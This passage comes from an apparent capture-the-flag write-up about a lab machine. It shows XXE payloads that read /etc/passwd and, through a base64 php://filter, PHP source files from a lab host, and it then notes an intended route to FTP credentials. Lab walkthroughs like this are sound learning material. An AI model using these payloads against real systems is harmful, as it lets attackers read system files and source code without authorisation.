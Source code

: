 And now I can submit the form:

![image-20200406124509668](https://0xdfimages.gitlab.io/img/image-20200406124509668.png)

This form is vulnerable to XXE file reads. For example, to get `/etc/passwd`, I can submit a payload like this:

```

<!DOCTYPE api [
  <!ELEMENT api ANY>
  <!ENTITY df SYSTEM "file:///etc/passwd">
]>
<api>
    <request>&df;</request>
</api>

```

![image-20200406124659228](https://0xdfimages.gitlab.io/img/image-20200406124659228.png)

I can try to get PHP source, but it doesn’t show up in the output. Luckily, I can use PHP filters in XXE just like in PHP. So this payload:

```

<!DOCTYPE api [
  <!ELEMENT api ANY>
  <!ENTITY df SYSTEM "php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/dev/index.php">
]>
<api>
    <request>&df;</request>
</api>

```

Returns:

![image-20200406124847799](https://0xdfimages.gitlab.io/img/image-20200406124847799.png)

Which can be decoded just like the other LFI.

### Intended Path - Creds via FTP

I only learned of the intended path after talking to some friends much later after solving the box. Logged in as a non-admin user, I was able to use profile picture change form to access `/dev` from localhost. When I get that, the source for `/dev/index.php` shows up, and there’s a hint in a comment in at the bottom:

[![](https://0xdfimages.gitlab.io/img/image-20200703222553814.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200703222553814.png)

There’s another reference to FTP:

> TODO: Fix FTP Login
